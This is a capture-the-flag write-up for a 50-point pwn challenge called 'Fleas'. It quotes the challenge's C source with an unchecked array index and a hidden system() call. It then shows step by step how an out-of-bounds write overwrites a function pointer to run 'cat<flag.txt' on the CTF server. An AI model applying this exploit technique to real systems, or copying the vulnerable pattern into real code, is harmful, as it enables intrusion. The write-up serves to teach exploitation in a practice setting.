

# Fleas
**Category:** Pwn

**Points:** 50

**Description:**
Author: kcolley

nc ctf.hackucf.org 7004

> **Files:** fleas, fleas.c, libpwnableharness32.so

## Write-up
When you run the program, you get a conversation about dogs and their fleas:
```
> ./fleas 
Hello. My name is Alice, and I am a veterinarian.
Your name is Bob now. You have two dogs.
What's your first dog's name?
Fido
Okay! Your first dog's name is Fido!
What's your second dog's name?
Rex
Wow, Rex is a great name for a strange dog!
So Bob, you say that your dog Fido has fleas.
Where are Fido's fleas?
[1] Head
[2] Back
[3] Belly
[4] Legs
[5] Tail
1
How many fleas does Fido have there?
2
Thanks for the information, Bob!
I'll be sure to get that taken care of right away.


***************
*One day later*
***************

*ring ring*
Hey Bob, it's Alice. I just wanted to give you a call to let you know that all 2 of Fido's fleas have been killed.
Also, your dogs are looking forward to seeing you again soon!
See?
Fido says Woof! Fido is a good boy.
Rex says Meow! Rex is a strange dog.
You can come by my office and pick up your dogs today or tomorrow.
The invoice will be $1337 including tax.
Have a nice day!
```
You select your two dogs' names, where the first dog has fleas, and how many and the program prints the rest.

I ran `strings` over the executable, but didn't see anything obvious. Next I looked at the code. There is the `handle_connection()` function that is the main code:
```c
void handle_connection(int sock) {
	char name1[100], name2[100];
	
	say("Hello. My name is Alice, and I am a veterinarian.\n");
	say("Your name is Bob now. You have two dogs.\n");
	
	Dog* dog1 = calloc(1, sizeof(*dog1));
	dog1->speak = &dog1_speak;
	
	printf("What's your first dog's name?\n");
	read_line(name1, sizeof(name1));
	dog1->name = name1;
	
	say("Okay! Your first dog's name is %s!\n", dog1->name);
	
	Dog* dog2 = calloc(1, sizeof(*dog2));
	dog2->speak = &dog2_speak;
	
	printf("What's your second dog's name?\n");
	read_line(name2, sizeof(name2));
	dog2->name = name2;
	
	say("Wow, %s is a great name for a strange dog!\n", dog2->name);
	
	say("So Bob, you say that your dog %s has fleas.\n", dog1->name);
	printf("Where are %s's fleas?\n", dog1->name);
	printf("[%d] Head\n", DOG_HEAD);
	printf("[%d] Back\n", DOG_BACK);
	printf("[%d] Belly\n", DOG_BELLY);
	printf("[%d] Legs\n", DOG_LEGS);
	printf("[%d] Tail\n", DOG_TAIL);
	
	int flea_location;
	if(scanf("%d", &flea_location) != 1) {
		printf("Error reading input choice!\n");
		exit(EXIT_FAILURE);
	}
	
	if(flea_location < DOG_HEAD) {
		printf("Invalid choice: %d\n", flea_location);
		exit(EXIT_FAILURE);
	}
	
	printf("How many fleas does %s have there?\n", dog1->name);
	
	int flea_count;
	if(scanf("%d", &flea_count) != 1) {
		printf("Error reading flea count!\n");
		exit(EXIT_FAILURE);
	}
	
	dog1->fleas[flea_location-1] = flea_count;
	
	say("Thanks for the information, Bob!\n");
	say("I'll be sure to get that taken care of right away.\n");
	say("\n");
	say("\n"
	    "***************\n"
	    "*One day later*\n"
	    "***************\n");
	say("\n");
	say("*ring ring*\n");
	say("Hey Bob, it's Alice. I just wanted to give you a call "
	    "to let you know that all %d of %s's fleas have been killed.\n", dog1->fleas[flea_location-1], dog1->name);
	say("Also, your dogs are looking forward to seeing you again soon!\n");
	say("See?\n");
	dog1->speak(dog1);
	dog2->speak(dog2);
	say("You can come by my office and pick up your dogs today or tomorrow.\n");
	say("The invoice will be $1337 including tax.\n");
	printf("Have a nice day!\n");
}
```
`Dog` is a `struct` that contains the dog's name, a pointer to a function that that print's the phrase that the dog says, and an array, one elemnt per body part, that holds the number of fleas for each body part:
```c
struct Dog {
	char* name;
	speak_func* speak;
	int fleas[DOG_NUMPARTS];
};
```
If we look back at part of the `handle_connection()` function, we can see that the `speak` function pointer is set to two functions:
```c
...
Dog* dog1 = calloc(1, sizeof(*dog1));
dog1->speak = &dog1_speak;
...
Dog* dog2 = calloc(1, sizeof(*dog2));
dog2->speak = &dog2_speak;
```
However, there are 3 functione:
```c
void dog1_speak(Dog* dog) {
	say("%s says Woof! %s is a good boy.\n", dog->name, dog->name);
}

void dog2_speak(Dog* dog) {
	say("%s says Meow! %s is a strange dog.\n", dog->name, dog->name);
}

void dog3_speak(Dog* dog) {
	say("%s says:\n", dog->name);
	system(dog->name);
	exit(EXIT_SUCCESS);
}
```
We can also see that `dog3_speak()` calls `system()` on the dog's name. Therefore, if we can set one of the dog functions to `dog3_speak()` and the dog name to `cat<flag.txt`, then we could `cat` the flag file on the server.

I looked in IDA Pro to see how this might be possible.

First I set up a text file containing the inputs:
```
python -c "print('A'*100 + 'B'*100 + '1 2')" > input.txt
```
We need 100 characters for each name otherwise the `read()` statement in the code will read everything from the file, and the name arrays are set up as 100 `char` arrays:
```c
void read_line(char* buf, size_t bufsize) {
	if(read(STDIN_FILENO, buf, bufsize) == -1) {
		exit(EXIT_FAILURE);
	}
	buf[bufsize-1] = '\0';
	
	char* end = strchr(buf, '\n');
	if(end) {
		*end = '\0';
	}
}
...
void handle_connection(int sock) {
	char name1[100], name2[100];
```

Now we can use this file in the **Process Options** in IDA to get the data in and examine the heap.

During the trace we can see, after the `calloc()` and once `dog1->speak = &dog1_speak;` has been executed, the address of the function (0x08048866) is on the heap:




From the Dog `struct`, we also know that there is a `char *` (4-bytes) to point to the dog's name and that comes before the function address, and an array of `int` for the number of fleas that comes after the address. That address is of size `DOG_NUMPARTS` which is 5. An `int` is 4-bytes, so this array will take up 20 bytes after the function address.

If we move on, after the first dog name input (100 A's), those A's can be seen on the stack:


We can also see the address of this name (0xffd6a4e4) is is written into our Dog1 memory on the heap, right before the speak function address as we expected:


When we `calloc()` the second Dog `struct` and set the speak function address for that (0x0804888b), we can see that set on the heap:


Once the second Dog's name is entered, we can see the 100 B's on the stack:


and the address of that name (0xffd6a548) in the Dog2 memory on the heap:


If we go on and get the flea details (in location 1, 2 fleas), we can see that represented in the Dog1 memory on the heap:


The problem is how do we use this information to change one of the speak functions to point to `dog3_speak()` and run a command?

It took a while of me staring at the code to get the answer - there is no upper bounds check on the menu option, and that menu options decides exactly where to write to in the `fleas` array. If we make the menu option 6, it should write 1 location past the end of that array:
```
> python -c "print('A'*100 + 'B'*100 + '6 2')" > input.txt
```
Looking at the heap after trying this, it does write to the address directly before the Dog2 `struct`:


We can see by this that if we enter 7 as the menu option we will be overwriting the Dog2 name pointer, and if we enter 8, we can overwrite the speak function pointer!

The location of the `dog3_speak` function is 0x080488b0. In decimal this is 134514864‬. If we change our input file to enter 8 for the menu, and this number as the number of fleas, we should be able to make the speak function for Dog2 to point at `dog3_speak`:
```
> python -c "print('A'*100 + 'B'*100 + '8 134514864')" > input.txt
```
We can see that this all works within IDA:


We need to enter the `cat<flag.txt` as the second dog's name, so we'll need to enter the data manually. I tried this on the server:
```
> nc ctf.hackucf.org 7004
Hello. My name is Alice, and I am a veterinarian.
Your name is Bob now. You have two dogs.
What's your first dog's name?
fido
Okay! Your first dog's name is fido!
What's your second dog's name?
cat<flag.txt
Wow, cat<flag.txt is a great name for a strange dog!
So Bob, you say that your dog fido has fleas.
Where are fido's fleas?
[1] Head
[2] Back
[3] Belly
[4] Legs
[5] Tail
8
How many fleas does fido have there?
134514864
Thanks for the information, Bob!
I'll be sure to get that taken care of right away.


***************
*One day later*
***************

*ring ring*
Hey Bob, it's Alice. I just wanted to give you a call to let you know that all 134514864 of fido's fleas have been killed.
Also, your dogs are looking forward to seeing you again soon!
See?
fido says Woof! fido is a good boy.
cat<flag.txt says:
flag{<flag_was_here>}
```

This worked and gave me the flag!

